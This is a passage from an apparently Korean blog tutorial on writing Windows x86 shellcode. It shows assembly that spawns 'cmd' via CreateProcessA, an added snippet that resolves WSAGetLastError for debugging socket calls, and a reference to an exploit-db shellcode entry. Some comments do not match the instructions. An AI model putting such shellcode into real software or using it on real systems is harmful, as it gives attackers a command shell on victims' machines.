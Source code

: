 ```text
PUSH EDX                             ;pThreadAttributes => NULL
PUSH EDX                             ;pProcessAttributes => NULL
PUSH ECX                             ;pCommandLine => pointer to "cmd"
PUSH EDX                             ;ApplicationName => NULL
CALL EBP                             ;execute CreateProcessA```
{% endraw %}



### 추가 : WSAGetLastError


---


쉘코드 작성 중에 WSA 함수 관련해서 오류 확인하고 싶으면 아래 코드 추가하면 된다.



{% raw %}
```text
POP EDI ;load previously saved ws2_32.dll address to ECX
ADD ESP, 0x10 ;Align stack
XOR EBX, EBX ; Zero out the EBX register
ADD BL, 0x4 ; Add 0x4 to the lower register BL
IMUL EBX, 0x63 ; EBX = 0x194 (assuming WSAGetLastError's ordinal is the next one)
MOV EDX, [ESP + EBX] ; EDX has the address of GetProcAddress
PUSH 0x61726f72 ; "aror"
SUB word [ESP + 0x3], 0x61 ;"ror" (remove "a")
PUSH 0x72457473 ; "rEts"
PUSH 0x614c7465 ; "aLte"
PUSH 0x47415357 ; "GASW"
PUSH ESP ; "WSAGetLastError", GetProcAddress 2nd argument
MOV EAX, EDI ; EAX now holds the ws2_32.dll address
PUSH EAX ; Push the first argument of GetProcAddress
CALL EDX ; Call GetProcAddress
PUSH EDI ; Save the ws2_32.dll address to use it later

; Call WSAGetLastError
CALL EAX ; Call WSAGetLastError```
{% endraw %}



## References


---

- [https://stackoverflow.com/questions/71521730/cannot-return-socket-descriptor-from-wsasocketa](https://stackoverflow.com/questions/71521730/cannot-return-socket-descriptor-from-wsasocketa)
- [https://www.exploit-db.com/shellcodes/50291](https://www.exploit-db.com/shellcodes/50291)
